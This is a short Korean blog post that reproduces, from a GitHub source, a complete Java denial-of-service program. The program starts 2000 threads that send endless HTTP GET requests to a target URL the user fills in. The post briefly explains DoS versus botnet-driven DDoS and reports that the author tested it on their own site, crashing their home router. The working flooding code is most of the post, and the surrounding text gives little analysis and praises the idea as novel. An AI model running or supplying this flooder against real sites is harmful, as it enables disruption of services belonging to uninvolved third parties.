 ```yaml
---
title: 자바로 DDOS 공격하기
description: 자바로 간단한 해킹 시도를 해봅시다.
layout: blogpost
author: Jacob Lim
email: jacoblim@studia.blue
date: 2022/05/02
categories: other
---
```


2분컷 단칼 설명

인터넷을 돌아다니다가 흥미로운 글 하나를 발견했다. 바로 Java를 이용해 DDOS 공격을 한다는 것인데 궁금해서 바로 들어갔다. 그곳에는 다음과 같은 코드가 있었다.

```java
import java.net.HttpURLConnection;
import java.net.URL;
import java.net.URLEncoder;
import java.util.concurrent.atomic.AtomicBoolean;

public class DdosAttack {

	public static void main(String[] args) throws Exception {
		for (int i = 0; i < 2000; i++) {
			DdosThread thread = new DdosThread();
			thread.start();
		}
	}

	public static class DdosThread extends Thread {

		private AtomicBoolean running = new AtomicBoolean(true);
		private final String request = /*WebSiteAddress*/;
		private final URL url;

		String param = null;

		public DdosThread() throws Exception {
			url = new URL(request);
			param = "param1=" + URLEncoder.encode("87845", "UTF-8");
		}

		@Override
		public void run() {
			while (running.get()) {
				try {
					attack();
				} catch (Exception e) {
					e.printStackTrace();
				}
			}
		}

		public void attack() throws Exception {
			HttpURLConnection connection = (HttpURLConnection) url.openConnection();
			connection.setDoOutput(true);
			connection.setDoInput(true);
			connection.setRequestMethod("GET");
			connection.setRequestProperty("charset", "utf-8");
			connection.setRequestProperty("Host", this.request);
			connection.setRequestProperty("User-Agent", "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:8.0) Gecko/20100101 Firefox/8.0");
			connection.setRequestProperty("Content-Type", "application/x-www-form-urlencoded");
			connection.setRequestProperty("Content-Length", param);
			System.out.println(this + " " + connection.getResponseCode());
			connection.getInputStream();
		}
	}
}
```

출처: Abdelaziz-Khabthani(Github)

이 코드를 본인의 컴퓨터로 돌려서 공격을 한다면 DOS이지만, 자신이 해킹한 여러 대의 컴퓨터 (봇넷이라 부른다)에서 동시에 공격을 한다면 DDOS라고 할 수 있다. 그렇다면 이 코드를 한 번 *분석해 보자.*

이 코드는 실행하는 순간 DdosThread 안의 request의 주소로 1999개의 Http Request를 보내는 것이었다. 실험을 해보기 위해 공격할 request 주소를 우리 사이트인 *[https://www.studia.blue](https://www.studia.blue)*로 잡고 코드를 실행시켜보았다. 결과부터 말하자면, 공유기가 좋지 않다면 *따라 하지 않는* 것이 좋다. 잠깐 동안 우리 집 공유기가 터져 우리 집 컴퓨터가 모두 마비되는 사고가 있었던 까닭이다. 그래도 이 단점만 빼면 이 아이디어는 정말 참신한 것 같다.
